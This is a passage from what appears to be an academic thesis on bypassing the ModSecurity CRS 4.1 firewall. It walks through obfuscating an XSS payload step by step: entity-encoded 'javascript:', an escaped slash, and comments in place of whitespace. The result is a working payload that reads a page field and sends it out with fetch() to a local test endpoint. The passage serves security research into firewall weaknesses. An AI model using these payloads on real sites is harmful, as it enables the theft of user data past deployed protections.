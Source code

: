 \begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

successfully evaded \acrshort{crs} 4.1 rule with id \verb|941180|.
Finally one of the forward-slashes \verb|/| in the url-string given to the JavaScript function \verb|fetch()| was escaped by prepending it with a back-slash \verb|\|.
Escaping any normal character with a back-slash \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully made the payload evade the last remaining rule: \verb|934110|.
The bypassing payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

After injecting this payload into the \acrshort{html} document during validation, it turned out that the resulting \acrshort{html} code was split according to the whitespaces given in the JavaScript statements. A similar case to what was observed in Section~\ref{sec:funconstrconbypass}.
Whitespaces contained in the JavaScript statements of the bypassing but invalid payload were substituted by comments to create the payload:

\begin{lstlisting}[style=basicStyle, caption=secret exfiltration XSS bypass, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var/**/secret/**/=/**/document.getElementsByName('name')[0]&^\#^46innerHTML;var/**/data/**/=/**/{body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

When sent in a request towards the web application, this payload bypassed the ModSecurity firewall using \acrshort{crs} 4.1 and was successfully validated on the target.


